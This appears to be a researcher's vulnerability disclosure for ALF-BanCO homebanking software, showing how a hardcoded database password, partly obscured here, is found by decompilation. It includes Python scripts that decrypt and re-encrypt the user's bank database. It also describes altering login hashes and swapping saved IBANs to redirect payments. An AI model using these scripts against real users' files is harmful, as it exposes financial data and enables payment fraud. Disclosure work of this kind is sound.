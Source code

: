 ## Overview

ALF-BanCo is a homebanking software that manages accounts in various banks, Paypal accounts and many credit cards. The software saves transactions on the PC for as long as the user requires.

## Discovered By

**[Nicolò Tescari](https://www.linkedin.com/in/nicol%C3%B2-tescari-913390131/) ([@ph0nkybit](https://twitter.com/ph0nkybit))** of **[Cybertech](https://www.cybertech.eu/)**

## Proof of Concept (PoC)

The application uses a hardcoded default password to encrypt the local SQLite database containing the user's data. An attacker who gains physical or remote access to the user's machine can exploit this vulnerability to read and modify the data.

The vulnerability was discovered on **ALF-BanCO 8.2.3 (Profi version)**. According to the vendor, it is present up to version **8.2.5**. A patch has been released starting with version **8.3.0**.

At the request of the vendor, the password has been partially obscured.

* * *

After installing the application and configuring our user, the file “**HbDat001.alfdb8**” is created inside the following path: “**C:\\Users\\&lt;username&gt;\\AppData\\Roaming\\ALFBanCo8\\Daten**”.

![db_path](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/db_path.png)

Using ILSpy , the various DLL libraries and application executables inside “**C:\\Program Files (x86)\\ALFBanCo8**” were decompiled.

Looking for the extension "**.alfdb8**" we notice that this is assigned to the “**DB_ENDING**” constant, inside “**AlfOption.dll**”. This suggests that the file is used as a database.

![DB_ENDING](https://github.com/ph0nkybit/proof-of-concepts/blob/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_ENDING.png)

Moreover, the “**IsSqliteDB**” function, inside “**AlfLogin.dll**” returns **true** if the file extension is “**.alfdb8**”, confirming that “**HbDat001.alfdb8”** is a SQLite DB.

![IsSqliteDB](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/IsSqliteDB.png)

As we can see the database cannot be simply opened by an application like DB Browser for SQLite because it is probably encrypted.

![DBBrowser](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_Browser.png)

Within the “**AlfNetDB.dll**” library, we notice the “**OpenSQLite**” function, which takes as arguments two strings, the **db** and the **password**.

![OpenSQLite](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/OpenSQLite.png)

The function is used by the the following constructor, whose variable “**bSQLCrypt**” is set to **true**. This confirms that the database is probably encrypted.

![bSQLCrypt](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/bSQLCrypt.png)

The constructor, is in turn used by the “**SQLCheckPassword**” function, inside “**AlfLogin.dll**”.

As we can see, there’s a **hardcoded password** among the arguments of the constructor.

![SQLCheckPassword](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/SQLCheckPassword.png)

Looking for the password, we can see that it is in fact assigned to the **DB_PWD** constant within the “**Procs”** class of the same DLL.

![DB_PWD](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/DB_PWD.png)

Returning to the “**OpenSQLite**” function, we also note that the “**System.Data.SQLite**” library is being used. This library also provides support for encrypting SQLite databases and as we will see below this type of encryption is actually used on the "**HbDat001.alfdb8**" database.

![System.Data.SQLite](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/System.Data.SQLite.png)

The following Python script can be used to decrypt the database.

Copying “**HbDat001.alfdb8**” to a new directory and running the script, creates “**HbDat001.sqlite**” in the same directory (thanks to https://gist.github.com/zuccaro for the original Python code).

```
def decryptSystemDataSQLite(file, password):

    from Crypto.Hash import SHA 
    from Crypto.Cipher import ARC4
    from struct import unpack
    from tempfile import NamedTemporaryFile
    from shutil import copyfile
    from os import remove
    ret = None
    with open(file,'rb') as f:
        key = SHA.new(password).digest()[:16] 
        header = ARC4.new(key).decrypt(f.read(1024)) 
        if header[0:15] == 'SQLite format 3': 
            print("Valid!")
            declared_ps = unpack('>H',header[16:18])[0] 
            if declared_ps == 1: 
                declared_ps = 65536 
            t = NamedTemporaryFile(delete=False,suffix='.sqlite')
            f.seek(0) 
            while True:
                block = f.read(declared_ps)
                if not block: 
                    break  
                t.write(ARC4.new(key).decrypt(block)) 
            t.close() 
            ret = t.name 
            copyfile(ret, file.split('.')[0] + '.sqlite')
            remove(ret)
    return ret
    
decryptSystemDataSQLite('HbDat001.alfdb8','Wbf*************')
```

![example_usage](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/example_usage.png)

Within the database we can find information about the transfers made.

![database_transfers](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_transfers.png)

Accounts data.

![database_accounts](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_accounts.png)

The username and password hash used by the user to login into the application.

![database_credentials](https://raw.githubusercontent.com/ph0nkybit/proof-of-concepts/main/Use_Of_Hardcoded_Password_In_ALF-BanCO_8.2.x/images/database_credentials.png)

In addition to being able to read user data, an attacker could also copy the “**HbDat001.alfdb8**” file on his machine, decrypt it, change the password hash on the database with one of his choise, re-encrypt the database, download the application and choose to restore from a backup during the initial setup, to access the victim’s data from the application without knowing the user's password.

The following Python script can be used to re-encrypt the database.

```
def encryptSystemDataSQLite(file, password):

    from Crypto.Hash import SHA 
    from Crypto.Cipher import ARC4
    from struct import unpack
    from tempfile import NamedTemporaryFile
    from shutil import copyfile
    from os import remove
    ret = None
    with open(file,'rb') as f:
        key = SHA.new(password).digest()[:16]
        header = (f.read(1024))
        declared_ps = unpack('>H',header[16:18])[0]
        if declared_ps == 1:
            declared_ps = 65536
        t = NamedTemporaryFile(delete=False,suffix='.alfdb8')
        f.seek(0)
        while True:
            block = f.read(declared_ps)
            if not block:
                break
            t.write(ARC4.new(key).encrypt(block))
        t.close()
        ret = t.name
        copyfile(ret, file.split('.')[0] + '.alfdb8')
        remove(ret)
    return ret
    
encryptSystemDataSQLite('HbDat001.sqlite','Wbf*************')
```
The malicious user could also carry out phishing attacks by modifying IBANs (for example in transactions saved as favorites), re-encrypting the database and replacing it with the user's legitimate one. If when the user send a payment he does not notice that the IBANs of a transaction saved as a favorite have been replaced, he could send the payment to the wrong IBAN.

